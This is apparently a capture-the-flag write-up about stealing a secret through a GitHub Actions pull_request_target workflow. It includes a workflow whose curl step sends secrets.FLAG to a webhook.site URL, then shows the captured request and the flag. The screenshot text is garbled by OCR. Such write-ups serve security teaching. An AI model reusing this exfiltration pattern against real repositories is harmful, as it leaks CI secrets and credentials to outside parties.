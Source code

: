 # Fork Knife
> You must solve the second challenge to get the answer, all you need is inside the Loby.

## About the Challenge
We were given a repository whose flags are located in the GitHub workflow


[Image extracted text: challenge-2-daffainfo
github
workflows
grade.yml
(
maclarel    Initial commit
Code
Blame
30
lines
(26
loc )
779 Bytes
on:
pull_request_target
jobs:
5
build:
name:
Grade
the
test
7
runs-on:
ubuntu-latest
8
steps:
10
uses:
actions/checkout@v2
11
with:
12
ref:
S{{ github.event.pull_request.head . sha
}}
13
14
name
Run
build
tests
15
id:
build_and_test
16
env:
17
EXPECTED_OUTPUT =
S{{
secrets.FLAG
}}
18
run:
19
Ibin/bash
Ibuild.sh
output
txt
&& /bin/bash
Itest. sh
20
21
uses:
actions/github-script@v3]


## How to Solve?
To get the flag, I created another workflow like this

```yaml
ame: Say Hi

 on: [pull_request]

 jobs:
   build:

     runs-on: ubuntu-latest

     steps:
     - uses: actions/checkout@v2
     - name: Say Hi
       run: |
         curl "https://webhook.site/b7c7b30c-1536-4672-a15c-646bcd1ef28e?username=${{ secrets.FLAG }}"
```

This workflow will send the flag to `webhook.site` using `curl` command, and then create a pull request to trigger the workflow


[Image extracted text: Request Details
Permalink
Raw content
Copy as
Headers
GET
https:IIwebhook sitelb7c7b3Oc-1536-4672-a15c-646bcd1ef28e?usernam
connection
close
e-EKOpr3v3nt_PWN_r3qu3stS
accept
*x
Host
40.84.177.133
Whois
Shodan
Netify   Censys
user-agent
curl/7.81.0
Date
01/11/2023 22.35.21 (2 days ago)
host
webhook. site
Size
0 bytes
content-length
ID
11ce3da7-9c9b-4e34-a023-fd980d12b522
content-type
Files
Query strings
Form values
username
EKOpr3v3nt
PW_raqu3sts
(empty)
No content]


```
EKO{pr3v3nt_PWN_r3qu3stS}
```